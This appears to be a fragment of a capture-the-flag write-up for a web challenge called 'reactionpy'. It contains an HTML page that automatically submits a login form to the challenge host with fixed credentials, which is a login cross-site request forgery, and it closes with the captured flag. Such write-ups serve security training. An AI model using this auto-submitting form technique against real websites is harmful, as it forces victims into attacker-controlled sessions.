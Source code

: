 ```html

<!-- csrf_to_setcookie.html -->
```

<br />

```html
<!DOCTYPE html>
<html>
<head>
    <meta name="referrer" content="no-referrer">
    <title>Login to reactpy challenge</title>
</head>
<body>
    <form action="https://reactionpy.2021.chall.actf.co/login" id="csrf-form" method="POST">
        <input name="username" value="az3z3l">
        <input name="pw" value="star7ricks">
    </form>
    <script>document.getElementById("csrf-form").submit()</script>
</body>
</html>

<!-- csrf_to_login_reactpy.html -->
```

<br />

## Flag

actf{jason's_site_isn't_so_lax_after_all}


<br />
